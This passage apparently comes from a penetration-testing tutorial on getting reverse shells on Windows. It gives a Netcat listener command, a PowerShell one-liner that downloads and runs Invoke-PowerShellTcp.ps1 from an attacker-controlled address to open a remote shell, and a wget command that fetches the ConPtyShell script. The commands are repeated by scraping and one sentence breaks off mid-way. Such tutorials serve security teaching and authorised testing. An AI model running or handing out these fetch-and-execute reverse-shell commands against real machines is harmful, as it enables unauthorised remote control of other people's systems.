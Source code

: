 <pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
python -m SimpleHTTPServer 80
</pre>

![](https://blogger.googleusercontent.com/img/a/AVvXsEhBZgjYSCdprBnFdXEjzipqgqfa8Zg2tgz-D8OKBrJYV0xYnSjjxHX9ghzmO5OKL9l42b8-2B-XurKIl4Q8VnKHqHayHeFX9EOR0znIVcuW5Fgx9o1xiXfpP8DXQSlA0Az3ANw1DgFkTYYdB4ZiWiwbjnjeVK1INBLeeh40_lq4xCNJRZh8ybdqTr8Urw=s16000)

To obtain a reverse connection, we should first launch a Netcat listener on port 4444.

nc -vlp 4444

nc -vlp 4444

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
nc -vlp 4444
</pre>

Users must run the following command into the command prompt of the Windows machine. It will assist in the execution of the PowerShell file.

Remember that the IP address should be your local IP address(Kali IP address).

powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.1.3/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.1.3 -Port 4444

powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.1.3/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.1.3 -Port 4444

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.1.3/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.1.3 -Port 4444
</pre>

![](https://blogger.googleusercontent.com/img/a/AVvXsEjR3n5lZnKlhx81RckPbfXkkOM_kbvXCedreJMtmQpFJBZ3oYCvjquqZ4_VrMmO5U9hRPOkgK3Tmdpt-hGHMDSmyXnBdiQT69ah77Y57suXe4KwVV96ywNpkVHhwKB6TiLw8J1FbSm6I5ZAfUbq_coUOEbTv7WvmlPr_-xM5vdUJw_h3cwlrlr-FGy5uA=s16000)

Once run the script, so we also get the reverse shell in the Netcat listener.

Use the command **“whoami”** maybe we just have the correct reverse shell. This will tell you the user account type logged in.

![](https://blogger.googleusercontent.com/img/a/AVvXsEjklDuniyGdAXmgahAXTUYtb10QRFPZztGv_Qmkva0w3KPdy3nMeI-wHDgx9Owik9lBG8_On1vcLXXyB22RvqkGS0aVnfHA9Xhan2TUpjY5VzC3Q3Hg1TpiFhH-hRMxs_TitQqjUdEVHKKkeSxKUu9d6xgczZZ9AO1UsJfiFTcguIGlRTVGAM5eHEbTbw=s16000)

### ConptyShell 

ConPtyShell is a Windows server Interactive Reverse Shell. ConPtyShell converts your bash shell into a remote PowerShell. **CreatePseudoConsole()** is a ConPtyShell function that was first used 

It creates a Pseudo Console and a shell to which the Pseudo Console is connected with input/output.

Users need to go to the website listed below.

As it is a Github website, you must download the link.

wget https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1

wget https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
wget https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1
</pre>
